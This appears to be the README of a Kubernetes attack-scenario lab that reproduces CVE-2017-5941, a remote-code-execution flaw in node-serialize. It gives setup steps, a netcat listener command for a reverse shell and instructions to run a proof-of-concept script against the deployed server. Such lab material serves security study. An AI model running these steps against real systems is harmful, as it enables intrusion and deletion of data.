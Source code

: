 ## CVE-2017-5941
https://nvd.nist.gov/vuln/detail/CVE-2017-5941#range-6741888 \
Target Application: Node \
Software Link: https://www.npmjs.com/package/node-serialize \
Version: 0.0.4 \
Writeup: https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/ \
Used PoCs: 
* https://packetstormsecurity.com/files/161356/Node.JS-Remote-Code-Execution.html
* https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

### Steps to Reproduce
1- `minikube start` \
2- `kubectl apply -f scenario-1-server.yaml` \
3- Forward port `kubectl port-forward pods/scenario-1-server-deployment-c9b7c56cf-ggvgm 4242:4242` \
4- Listen on port `1234` and your ip for TCP connections like `nc -l 144.122.139.40 1234` \
5- Run poc.py with your ip `./poc.py 144.122.139.40` \
6- Attacker now can view and delete anything they want.

### Demo
[scenario-1.webm](https://github.com/HasanYldz/kubernetes-attack-scenarios/assets/56763025/0300312b-0c85-40b9-83da-34f0fb4c7358)
